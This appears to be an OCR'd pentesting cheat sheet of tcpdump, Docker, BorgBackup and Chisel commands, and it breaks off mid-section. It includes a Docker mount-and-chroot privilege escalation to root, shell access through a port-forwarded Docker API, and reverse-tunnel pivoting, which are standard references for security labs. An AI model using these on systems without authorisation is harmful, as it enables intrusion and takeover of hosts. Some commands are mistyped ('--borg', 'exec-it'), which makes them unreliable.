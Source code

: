 | tcpdump -i eth0 -c 10  | Capture first 10 packets only. |
| tcpdump -i any -w network.pcap | Save output to a file. |
| tcpdump host 192.168.1.100 | Capture packets from a specific host. |

## Docker
### Useful options
| Options | Description |
| ------- | ----------- |
| docker ps | List running containers |
| docker images | List all images |
| docker exec -it container-name /bin/sh | SSH into a container |
| docker restart container-name | Restart a container |

### Docker commands on local machine after port forwarding
| Options | Description |
| ------- | ----------- |
| docker -H tcp://localhost:8080 images | List all images |
| docker -H tcp://localhost:8080 container ls | List running containers |
| docker -H tcp://localhost:8080 exec-it image-name sh | Get shell on instances |

### Escalate privilege to root
`docker run -v /:/mnt --rm -it image chroot /mnt sh`

## Utilising BorgBackup
### List all archives in the repo
`--borg list directory-name`

### List the contents of archive
`--borg list directory-name::archive-name`

### Extract archive into local machine
`--borg extract directory-name::archive-name`

## Pivoting within network
### Remote port forwarding with Chisel
*Run on local machine*

`chisel server -p 8000 --reverse`

*Run on remote machine*
